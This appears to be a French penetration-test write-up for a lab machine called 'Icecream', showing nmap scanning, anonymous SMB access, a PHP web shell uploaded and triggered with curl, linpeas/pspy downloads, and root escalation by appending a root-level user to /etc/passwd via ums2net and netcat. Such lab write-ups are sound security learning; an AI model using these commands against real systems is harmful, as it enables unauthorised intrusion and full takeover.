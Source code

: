 # Rapport de Vulnérabilité : Icecream

## Introduction

### Objectif
Identifier et exploiter les failles de sécurité de la machine cible "Icecream".

### Informations sur les IP
- **IP cible :** `192.168.188.214`
- **IP Kali :** `192.168.188.128`

## Découverte et Analyse Initiale des Services

### Scan Nmap
#### Commandes exécutées
Définition de la variable IP cible et exécution d'un scan Nmap pour détecter les services et versions.

```bash
target=192.168.188.214
nmap -T4 -p$(nmap -Pn -T4 -n -p- $target | grep 'tcp.*open' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -Pn -n -sVC $target
```

### Analyse des services ouverts
Liste des ports ouverts et des services associés avec leurs versions respectives.

## Potentielles Pistes d'Exploitation

### Exploitation des Ports SMB
Analyse des vulnérabilités potentielles des ports 139 & 445 associés au service Samba 4.6.2.

#### Tests de connexion SMB
Utilisation de `smbclient` pour tester l'accès aux partages sans mot de passe et examiner les contenus des fichiers partagés.

```bash
smbclient -L //192.168.188.214 -N
smbclient //192.168.188.214/icecream -N
put shell.php
```

### Mise en place d'un Web Shell
Instructions pour la création et le déploiement d'un web shell via SMB pour exécuter des commandes à distance.

```bash
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
curl "http://192.168.188.214/shell.php?cmd=id"
```

## Élévation de Privilèges

### Utilisation de Linpeas et PSPY
Description et utilisation des outils Linpeas et PSPY pour l'analyse des processus et la détection de vulnérabilités d'élévation de privilèges.

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Exploitation de CVE-2021-3156
Analyse de la possibilité d'exploiter cette vulnérabilité d'élévation de privilège.

### Utilisation de ums2net pour l'élévation de privilèges
Procédure détaillée pour utiliser ums2net afin de modifier `/etc/passwd` et ajouter un utilisateur avec les droits root.

```bash
echo 'aurelien:$6$IPVFVjVKK55o19kF$XqJHT3H5Qcmk96/iaLUfcC3UQPEYF0yFGzRtTinb/9NfQZIpWed9UfA6YBaEWhE5TRc1MLaXgLHWUtYI010Pj1:0:0:aurelien:/home/aurelien:/bin/bash' >> passwd
nc -v 192.168.188.214 5000 < ./passwd
sudo /usr/sbin/ums2net -c /tmp/config -d
```

## Conclusion

Synthèse des résultats et confirmation de l'accès root obtenue.
